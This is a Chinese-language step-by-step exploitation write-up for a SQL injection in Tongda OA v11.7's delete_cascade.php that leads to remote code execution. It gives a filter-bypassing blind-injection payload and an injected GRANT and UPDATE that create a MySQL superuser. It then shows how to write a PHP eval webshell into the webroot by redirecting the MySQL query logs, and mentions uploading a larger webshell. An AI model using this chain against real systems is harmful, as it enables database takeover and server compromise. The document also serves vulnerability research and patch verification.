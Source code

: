 # 通达OA v11.7 delete_cascade.php 后台SQL注入

# 通达OA v11.7 delete_cascade.php 后台SQL注入

## 漏洞描述

通达OA v11.7后台存在SQL注入，可通过此漏洞写入恶意后门文件攻击目标服务器

## 漏洞影响

```
通达OA v11.7
```

## 环境搭建

[环境地址](https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe)

## 漏洞复现

在 **general/hr/manage/query/delete_cascade.php** 文件中

![image-20220209110843192](/images/202202091108270.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：

**inc/common.inc.php** 代码

![image-20220209110858090](/images/202202091108141.png)

使用盲注对SQL注入进行测试

![image-20220209110914705](/images/202202091109818.png)

触发了通达OA的SQL注入拦截

**inc/conn.php**文件中找到过滤机制如下:

![image-20220209110944424](/images/202202091109512.png)

其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，那么只要构造MySQL报错即可配合`if`函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

```sql
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```

![image-20220209111011701](/images/202202091110796.png)



![image-20220209111026602](/images/202202091110677.png)

添加SQL数据库用户

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

访问 **http://xxx.xxx.xxx.xxx/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql. *TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION*

进入 **Myoa/mysql5/bin** 目录 执行 **mysql -upeiqi -p** 输入密码查询所有用户

![image-20220209111049110](/images/202202091110154.png)

发现成功执行添加一个账户

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

```sql
UPDATE `mysql`.`user` SET `Password` = '*FBCFBB73CF21D4F464A95E775B40AF27A679CD2D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('peiqi' AS Binary(5));
```

![image-20220209111109474](/images/202202091111720.png)

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限

![image-20220209111122226](/images/202202091111343.png)

登录如果失败，执行

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

利用漏洞写shell

```sql
# 查路径：
select @@basedir; # F:\OA\mysql5\，那么web目录就是 F:/OA/webroot/
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='F:/OA/webroot/';
select '<?php eval($_POST[x]);?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'F:/OA/webroot/';
select '<?php eval($_POST[x]);?>';
show variables like '%general%';
```

上传大马

![image-20220209111135417](/images/202202091111491.png)

## 参考文章

[通达OA v11.7后台SQL注入到RCE[0day\]](https://mp.weixin.qq.com/s/8rvIT1y_odN2obJ1yAvLbw)

